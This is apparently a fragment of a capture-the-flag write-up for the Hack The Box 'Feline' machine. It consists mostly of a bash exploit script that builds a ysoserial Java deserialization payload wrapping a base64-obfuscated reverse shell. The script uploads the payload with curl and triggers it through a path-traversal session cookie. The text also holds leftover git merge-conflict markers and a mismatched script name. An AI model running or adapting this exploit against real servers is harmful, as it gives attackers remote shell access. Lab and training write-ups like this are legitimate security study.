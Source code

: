 


```bash

git clone https://github.com/frohoff/ysoserial.git

mvn clean package -DskipTests


cd ysoserial/target/


vim run.sh
####################################################################################
# Hackthebox "Feline" deserializtion attack
#####################################################################################
#set command line parameters
ip=$1
port=$2
#reverse shell command the trget will execute
cmd="bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"
file=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)

# fux it with base64 to bypss bad characters
hexout="bash -c {echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"

#create yoserial payload
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections4 "$hexout" > /tmp/$file.session
echo $file

#upload the payload
curl -s -F "data=@/tmp/$file.session" http://10.10.10.205:8080/upload.jsp?email=bob@bob.com > /dev/null

<<<<<<< HEAD
#reference paylaod in cookie
=======
#reference payload in cookie
>>>>>>> 1a148b47672b35d180699fc905d033785c8bbe28
curl -s  -H "Cookie: JSESSIONID=../../../../../../../../../../opt/samples/uploads/$file" http://10.10.10.205:8080/ > /dev/null


ip=x.x.x.x
port=2424

bash test.sh $ip $port
```

## Access extension

---
